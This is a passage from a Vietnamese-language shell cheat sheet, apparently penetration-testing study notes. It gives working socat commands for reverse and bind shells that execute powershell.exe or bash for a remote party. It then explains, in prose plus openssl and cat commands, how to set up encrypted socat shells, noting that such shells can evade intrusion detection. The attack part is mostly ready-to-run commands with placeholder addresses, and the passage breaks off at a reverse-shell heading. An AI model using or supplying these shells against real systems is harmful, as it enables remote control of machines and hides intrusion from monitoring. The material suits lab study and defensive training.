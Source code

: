 **Client:**

Windown

```jsx
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

Linux

```jsx
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```

## **Bind Shell**

**Attacker:**

```jsx
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

**Client:**

Windown

```jsx
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

Linux

```jsx
socat TCP-L:<PORT> EXEC:"bash -li"
```

## Socat Encrypted Shells

Một trong những điều tuyệt vời về socat là nó có khả năng tạo ra các shell được mã hóa - cả bind shell và reverse shell. Tại sao chúng ta lại muốn làm điều này? Các shell được mã hóa không thể bị theo dõi trừ khi bạn có khóa giải mã và thường có thể vượt qua IDS nhờ đó.

Trước tiên, chúng ta cần **tạo một chứng chỉ để sử dụng các shell được mã hóa.** Điều này dễ thực hiện nhất trên máy tấn công của chúng ta:

```jsx
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

Lệnh này tạo ra một khóa RSA 2048 bit với tệp chứng chỉ phù hợp, tự ký và có hiệu lực trong vòng chưa đầy một năm. Khi bạn chạy lệnh này, nó sẽ yêu cầu bạn điền thông tin về chứng chỉ. Bạn có thể để trống hoặc điền ngẫu nhiên.

Sau đó, chúng ta cần hợp nhất hai tệp đã tạo thành một tệp .pem duy nhất:

```jsx
cat shell.key shell.crt > shell.pem
```

### **Reverse Shell**

